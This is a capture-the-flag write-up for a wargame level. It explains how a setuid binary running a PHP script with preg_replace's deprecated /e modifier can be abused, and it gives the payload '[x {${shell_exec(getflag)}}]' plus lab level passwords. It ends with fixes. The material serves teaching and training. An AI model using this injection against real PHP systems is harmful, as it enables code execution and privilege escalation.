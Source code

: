 # Solve Level06
pass : viuaaale9huek52boumoomioc

## Description
- in home
    - -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
    - -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*

### /home/level06/level06
- is it a binary version of the php file or does this binary execute the php file

### /home/level06/level06.php
- the only usefull line is ```$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);``` we can exploit the e
  - to exploit we have to match [x something ] in the file to pass because of regex
  - 'something' will be executed in y()
- we only need to understand regex in the php file
    - "/e" eval() => execute the code if it's valid php [php officiel][df1] [obsolete since php 5.5.0][df2] (cf Remote Code Execution)
    - use variable variables may help [revelation][df3] [doc][df4]
      - with variable variables we can use interpolation ```${$x}```
      - ```${shell_exec(getflag)}``` ==> failed evaluation code ==> php try to execute but can't
      - ```{${shell_exec(getflag)}}``` ==> undefined variable but getflag is executed !

## Solution
```bash
echo '[x {${shell_exec(getflag)}}]' > /tmp/file
./level06 /tmp/file
```

- no flag
- level07 : wiok45aaoguiboiki2tuin6ub

## Resolve problem
- always sanitize your data
- use the last version of php (e in preg_replace is invalide since 5.5.1 [source][df1])

[df1]: https://www.php.net/manual/en/function.preg-replace.php
[df2]: https://www.lephpfacile.com/manuel-php/reference.pcre.pattern.modifiers.php
[df3]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#variable-variables
[df4]: https://www.php.net/manual/en/language.variables.variable.php